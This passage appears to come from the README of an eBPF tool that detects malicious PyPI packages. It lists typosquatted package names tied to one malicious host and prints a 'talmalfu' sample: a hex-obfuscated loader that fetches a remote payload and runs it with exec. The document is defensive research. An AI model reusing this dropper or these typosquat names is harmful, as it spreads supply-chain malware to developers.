 - 可支持
```
socket.gethostbyname(host)
```
- 不支持
```
os.system('nslookup {} {}'.format(host, NS))
```



## 参考1-效果
[部分样本](https://github.com/Kevin-sa/ebpf-supply-chain/tree/master/small_sample)  
以检测到的部分恶意pypi包为例
### 175.24.100.2
比较出名的“175.24.100.2”恶意包
```
+------------------------------------------+------------+
| package                                  | version    |
+------------------------------------------+------------+
| easdyict                                 | 1.0.0      |
| ueler                                    | 1.0.0      |
| fliemagic                                | 1.0.0      |
| cryptograhpy                             | 1.0.0      |
| uitls                                    | 1.0.0      |
| efficientent-pytorch                     | 1.0.0      |
| vitualenv                                | 1.0.0      |
| demjon                                   | 1.0.0      |
| imutlis                                  | 1.0.0      |
| m1niexception                            | 0.1        |
| pydatamover                              | 0.0.2      |
| waveradio-v0-0-2                         | v0.0.2     |
| bigchaindbnextgen                        | 2.2.2.2    |
| newtorks                                 | 1.0.0      |
| benchmark-chrome                         | Chrome     |
| azure-textanalytics                      | 6969.99.99 |
| btcspendfrom                             | 20.3.4     |
| coin-master-hack-coins-free-working-2022 | 0.13       |
| aioli-client                             | client     |
| xmpuspus                                 | 0.0.1      |
+------------------------------------------+------------+
20 rows in set (0.00 sec)
```

### talmalfu
```python
import builtins
import requests

url = bytes.fromhex('687474703a2f2f7a6576656c2e736974652f7061796c6f61642d3032').decode()
payload = requests.get(url).text
getattr(builtins, bytes.fromhex('65786563').decode())(payload)
```
